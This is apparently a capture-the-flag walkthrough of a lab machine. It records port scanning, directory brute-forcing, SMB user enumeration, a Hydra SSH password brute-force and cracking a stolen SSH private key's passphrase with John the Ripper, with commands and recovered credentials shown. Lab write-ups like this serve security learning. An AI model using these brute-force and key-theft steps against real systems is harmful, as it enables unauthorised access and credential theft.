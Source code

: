 # Enumeration

### nmap
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
```
### 80/http
when we open the page we get greeted with this screen
![[Pasted image 20240924145815.png]]

in the source code we can find
```html
<html>

<h1>Undergoing maintenance</h1>

<h4>Please check back later</h4>

<!-- Check our dev note section if you need to know what to work on. -->


</html>
```

there aren't any links so lets try to brute-force our way
#### Dirb
```
-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.165.52/ ----
==> DIRECTORY: http://10.10.165.52/development/
+ http://10.10.165.52/index.html (CODE:200|SIZE:158)
+ http://10.10.165.52/server-status (CODE:403|SIZE:300)

---- Entering directory: http://10.10.165.52/development/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
```

so the hidden page was /development which is also a listing directory lets have a look inside
![[Pasted image 20240924150930.png]]

there are two text files the first reads

```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
these are the chats between _-J_ and _-K_ from development

```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
This is for J regarding his weak passwords, so we should probably try brute forcing it. The only problem is that we don't have the full username, so lets try enumerating the SMB maybe we can find the usernames that way.

### 139, 445/SMB
#### Enum4Linux
the scan gave us two usernames: _Jan_ and _Kay_ 
> *the log corrupted somehow so I cant show you ):*

We also found a Anonymous share but it doesn't have much accept for this file
```
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

lets try to bruteforce Jan's Password

### 22/SSH
#### Hydra
found a password with this command
```bash
$ hydra -u jan -P rockyou.txt ssh://[target]

[22][ssh] host: 10.10.165.52   login: jan   password: armando
```

# Privilege escalation
after searching for about 2 minutes in the server I found out that the *key_rsa* in kay's home folder has bad permissions so I just copied it

when using it I realised that the hash has a pass two so I will have to crack it with johnTheRipper

first I take the key and use `ssh2john id_rsa > id_rsa.txt` to make it a crack-able hash and then I use john with rockyou.txt to crack the hash
```shell
$ john id_rsa.txt --wordlist=rockyou.txt
..Snip..
beeswax          (id_rsa)
..Snip..
Session completed
```